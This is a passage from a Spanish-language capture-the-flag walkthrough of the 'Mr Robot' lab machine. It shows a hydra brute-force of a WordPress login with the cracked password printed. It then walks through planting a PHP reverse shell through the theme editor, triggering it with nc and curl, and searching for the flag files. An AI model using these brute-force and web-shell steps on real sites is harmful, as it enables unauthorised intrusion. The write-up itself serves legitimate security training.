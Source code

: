 ¡Tenemos un usuario valido! Podemos ver que `elliot` es un usuario existente en este login.

Ahora intentaremos identificar la contraseña de este usuario para finalmente acceder al panel principal.

```bash
❯ hydra -l elliot -P sortfsocity.dic 10.10.235.157 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 64
[80][http-post-form] host: 10.10.235.157   login: elliot   password: ER28-0652
```

<p style="text-align: center;">  
 <img src="/assets/images/mrrobot/05hydra2.png">     
</p>

Ya tenemos credenciales válidas para poder acceder al portal principal de esta web.

En este momento contamos con los permisos para editar archivos php en esta sesión, por lo que vamos a realizar los siguientes pasos:

* Ir al panel izquierdo, opción `apperance`.
* Click en la opción `editor`.
* En el panel derecho, click en `archive.php`.
* Copiamos la [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y la pegamos en el panel central.
* Cambiamos la `IP` y `Puerto`.
* Guardamos cambios.

<p style="text-align: center;">    
 <img src="/assets/images/mrrobot/06wp1.png">     
</p>   

Con estos pasos vamos a generar una reverse shell en php para cargarla y después ejecutarla en la máquina, todo esto mientras estamos en escucha por con la utilidad `nc`.

```bash
❯ nc -lvnp 5555
```

Luego hacemos la petición del recurso que contiene la reverse shell.

```bash
❯ curl -s "http://10.10.235.157/wp-content/themes/twentyfifteen/archive.php"
```

<p style="text-align: center;">  
 <img src="/assets/images/mrrobot/07reverse.png">    
</p>  

##POST-EXPLOIT

Ahora que tenemos acceso a la máquina, con la utilidad `find` buscamos el archivo que puede contener las siguientes flags.

```bash
$ find / -name key-*-of-3.txt 2>/dev/null
/opt/bitnami/apps/wordpress/htdocs/key-1-of-3.txt
/home/robot/key-2-of-3.txt
```
